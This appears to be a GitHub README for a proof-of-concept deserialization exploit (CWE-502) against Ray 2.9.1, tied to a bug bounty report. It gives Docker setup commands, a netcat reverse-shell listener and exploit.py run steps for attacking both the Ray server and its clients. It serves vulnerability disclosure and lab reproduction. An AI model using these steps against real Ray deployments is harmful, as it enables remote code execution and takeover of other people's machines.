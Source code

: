 # Ray 2.9.1 Deserialization Demo (Reverse Shell) - CWE-502

Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f

Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is bi-directional and is performed by sending a malicious serialized object to the client or server.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands - Server Exploit

The following set of commands are used to exploit the host running the `ray` service. The exploit is performed by sending a malicious serialized object from the client to the server. The object is deserialized by the server and the malicious payload is executed.

### Terminal 1 - Start the Service

Pull the image from dockerhub using `docker pull rayproject/ray:2.9.1` or build the image using the provided `Dockerfile`. Note, if the image is pulled from dockerhub, then the client python version must be `>=3.8` and the `ncat` command must be installed manually.

```bash
docker build -t ray-cwe-demo:2.9.1 --no-cache .
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 -p 4321:4321 --add-host host.docker.internal:host-gateway --shm-size=4.43gb ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```


## Commands - Client Exploit

This set of commands are used to exploit the client who may be interacting with the `ray` service. The exploit is performed by sending a malicious serialized object from the server to the client. The object is deserialized by the client and the malicious payload is executed.

### Terminal 1 - Start the Service

Here we mount a modified version of `server_pickler.py` to the container. The modified file contains the malicious payload that will be executed on the client.

```bash
docker run -it \
  -p 10001:10001 \
  -p 10002:10002 \
  -p 10003:10003 \
  -p 10004:10004 \
  -p 4321:4321 \
  -v "$(pwd)/server_pickler.py:/home/ray/anaconda3/lib/python3.8/site-packages/ray/util/client/server/server_pickler.py" \
  --add-host host.docker.internal:host-gateway \
  --shm-size=4.43gb \
  ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
